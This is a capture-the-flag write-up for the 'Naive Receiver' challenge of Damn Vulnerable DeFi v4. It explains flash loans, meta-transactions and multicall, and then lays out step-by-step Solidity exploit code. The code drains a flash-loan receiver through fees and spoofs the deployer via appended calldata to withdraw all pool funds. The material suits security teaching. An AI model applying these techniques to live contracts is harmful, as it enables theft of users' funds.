

In this article, we'll dive deep into the "Naive Receiver" challenge from Damn Vulnerable DeFi v4. The Naive Receiver challenge involves a pool with 1000 WETH offering flash loans with a fixed fee of 1 WETH, and a user contract with 10 WETH that can execute flash loans. The goal is to drain both contracts (totaling 1010 WETH) and send all funds to a recovery address.

## Key Vulnerabilities

The challenge contains two critical vulnerabilities:

1. The `FlashLoanReceiver` contract accepts any flash loan from the pool without verifying who initiated it
2. The `NaiveReceiverPool` has a flawed implementation of `_msgSender()` that can be exploited through meta-transactions

## Technical Background

**ERC-3156: Flash Loan Standard**

ERC-3156 is a standard interface for flash loans in Ethereum. It defines two interfaces:

- **IERC3156FlashLender**: Implemented by pools offering flash loans
- **IERC3156FlashBorrower**: Implemented by contracts receiving flash loans

The standard flow involves:
1. A transaction initiates a flash loan by calling the lender's `flashLoan()` function
2. The lender transfers tokens to the borrower
3. The lender calls the borrower's `onFlashLoan()` function
4. The borrower performs desired operations and approves tokens for repayment
5. The lender pulls back the loan amount plus fees

Importantly, the `onFlashLoan()` function receives the original initiator's address as its first parameter, which should be verified in secure implementations.

### Meta-Transactions and Forwarders

Meta-transactions enable users to execute transactions without directly paying gas, by having another entity (a "forwarder") submit the transaction on their behalf.

In this challenge, the `BasicForwarder` contract implements a meta-transaction system with these components:

- **Request structure**: Contains details about the transaction to be forwarded (sender, target, data, etc.)
- **EIP-712 signatures**: Cryptographically ensures that requests are authorized by the claimed sender
- **Forwarding mechanism**: Executes the requested call on the target contract

When the forwarder executes a call, it appends the original sender's address to the calldata, allowing the target contract to identify who initiated the transaction.

### EIP-712: Typed Data Signing

EIP-712 provides a standard way to sign structured data for Ethereum transactions. It helps create human-readable signatures that are specific to particular contracts and functions.

The `BasicForwarder` implements EIP-712 to validate requests:
1. It creates a typed data hash for the request
2. It verifies that the hash was signed by the address specified in the request's `from` field
3. This ensures that only authorized meta-transactions can be executed

## Vulnerability Analysis

### Vulnerability 1: Unprotected Flash Loan Receiver

Let's examine the `onFlashLoan` function in the `FlashLoanReceiver` contract:

```solidity
function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
    external
    returns (bytes32)
{
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    // Code continues...
}
```

The vulnerability lies in what this function checks versus what it doesn't check:

- It verifies that the **caller** is the trusted pool (`caller()` in assembly is equivalent to `msg.sender`)
- But it ignores the **first parameter**, which indicates who initially requested the flash loan

This means anyone can call `pool.flashLoan(receiver, token, amount, data)`, specifying the `FlashLoanReceiver` contract as the recipient. The receiver will accept the loan and pay the fee, as long as the call comes from the trusted pool.

### Vulnerability 2: Flawed _msgSender() Implementation

The `_msgSender()` function in `NaiveReceiverPool` is designed to support meta-transactions:

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

The vulnerability is that it extracts the sender's address from the last 20 bytes of the calldata without proper validation. We can manipulate this to impersonate any address, specifically the `deployer` who receives the flash loan fees.

### Multicall and Self-Referential Contract Calls

The `Multicall` contract allows executing multiple function calls in a single transaction:

```solidity
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), data[i]);
    }
    return results;
}
```

The key line is `Address.functionDelegateCall(address(this), data[i])`, which allows a contract to call itself. This creates a unique execution context where:

1. The contract makes internal calls to its own functions
2. From the perspective of the called functions, `msg.sender` is the contract itself
3. This allows bypassing certain access controls that rely on `msg.sender`

When the pool uses `multicall` to call its own `flashLoan` function, the `msg.sender` for `flashLoan` becomes the pool itself.

## The Exploit Step by Step

### Step 1: Drain the FlashLoanReceiver

We first exploit Vulnerability #1 by forcing the `FlashLoanReceiver` to take out 10 flash loans, each costing 1 WETH in fees:

```solidity
// 1. Drain the FlashLoanReceiver contract by triggering 10 flash loans
for (uint i = 0; i < 10; i++) {
    callDatas[i] = abi.encodeCall(
        pool.flashLoan,
        (receiver, address(weth), 0, "0x")
    );
}
```

Each flash loan:
- Requests 0 WETH (which is a valid amount)
- Incurs a fixed 1 WETH fee
- Credits the fee to the `deployer`'s account in the pool

After these 10 calls, the `FlashLoanReceiver` is drained of its 10 WETH, and the `deployer` has 10 WETH in credit within the pool.

### Step 2: Exploit the _msgSender() Vulnerability

Next, we exploit Vulnerability #2 to impersonate the `deployer` and withdraw all funds:

```solidity
// 2. Exploit the vulnerability in the _msgSender() mechanism for the withdrawal
callDatas[10] = abi.encodePacked(
    abi.encodeCall(
        NaiveReceiverPool.withdraw,
        (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
    ),
    bytes32(uint256(uint160(deployer)))
);
```

This creates a call to `withdraw()` with the `deployer`'s address appended at the end. When executed through the forwarder, the pool's `_msgSender()` function will extract this address and treat it as the caller, allowing the withdrawal of all 1010 WETH.

### Step 3: Use Multicall to Execute All Calls in One Transaction

To maximize efficiency and meet the challenge's transaction limit, we bundle all calls using `multicall`:

```solidity
// Combine all calls into a single transaction via multicall
bytes memory multicallData = abi.encodeCall(pool.multicall, callDatas);
```

### Step 4: Prepare and Sign the Meta-Transaction

We create and sign a request for the forwarder:

```solidity
// 3. Create a request for the forwarder
BasicForwarder.Request memory request = BasicForwarder.Request({
    from: player,
    target: address(pool),
    value: 0,
    gas: gasleft(),
    nonce: forwarder.nonces(player),
    data: multicallData,
    deadline: block.timestamp + 3600
});

// 4. Sign the request using EIP-712
bytes32 dataHash = forwarder.getDataHash(request);
bytes32 digest = keccak256(
    abi.encodePacked("\x19\x01", forwarder.domainSeparator(), dataHash)
);

(uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
bytes memory signature = abi.encodePacked(r, s, v);
```

### Step 5: Execute the Meta-Transaction

Finally, we execute the meta-transaction through the forwarder:

```solidity
// 5. Execute the request via the forwarder
forwarder.execute(request, signature);
```

When executed:
1. The forwarder validates the signature
2. The forwarder calls `pool.multicall` with our calldata
3. The pool executes each call in the multicall array
4. The 10 flash loans drain the `FlashLoanReceiver`
5. The withdrawal call, with the `deployer`'s address appended, withdraws all funds to the recovery address



